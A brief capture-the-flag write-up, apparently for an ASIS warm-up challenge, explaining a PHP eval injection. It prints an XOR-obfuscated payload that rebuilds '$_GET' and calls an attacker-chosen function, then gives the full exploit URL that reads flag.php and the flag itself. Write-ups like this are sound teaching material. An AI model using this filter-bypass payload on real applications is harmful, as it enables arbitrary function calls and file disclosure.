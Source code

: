 **Challenge:** http://69.90.132.196:5003/?view-source

Payload: <code>$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php</code>

Explaining:
  - <code>$_="`{{{"^"?<>/";</code> | Result of xor operation: $_ = "_GET"
  - <code>${$_}[_](${$_}[__]);</code> | $_GET[_]($_GET[__])
  - Eval function will be: <code>eval(highlight_file('flag.php'))</code>

**<a href="http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php" >Get the flag</a>**

**Flag**: ASIS{w4rm_up_y0ur_br4in}

